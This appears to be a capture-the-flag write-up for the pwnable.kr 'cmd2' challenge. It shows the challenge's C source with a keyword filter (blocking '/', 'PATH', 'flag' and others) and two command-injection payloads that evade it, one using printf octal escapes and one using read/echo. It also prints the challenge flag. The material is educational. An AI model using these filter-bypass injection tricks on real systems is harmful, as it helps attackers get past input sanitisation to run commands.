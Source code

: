 ```yaml
---
title: "Pwnable.kr - cmd2"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/pwnable.png
ribbon: red
description: "This challenge has more restrictions, the biggest one is filtering forward slash `/`, this will prevent us from executing any binary the usual way like this `/bin/binary`. The only solution that worked with me is passing the octal value of `/` (57) to printf with format string..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Daddy bought me a system command shell.
> but he put some filters to prevent me from playing with it without his permission...
> but I wanna play anytime I want!



```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	printf("before:   %s\n", argv[1]);
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```

This challenge has more restrictions, the biggest one is filtering forward slash `/`, this will prevent us from executing any binary the usual way like this `/bin/binary`.

The only solution that worked with me is passing the octal value of `/` (57) to printf with format string `%b`. 

# Solution:

```
cmd2@pwnable:~$ ./cmd2 '$(printf "%bbin%bcat %s%s" "\57" "\57" "fl" "ag")'
```

```
cmd2@pwnable:~$ ./cmd2 '$(read x; echo $x)'	# not my solution but it's very cool
/bin/cat flag
```

Flag: `FuN_w1th_5h3ll_v4riabl3s_haha`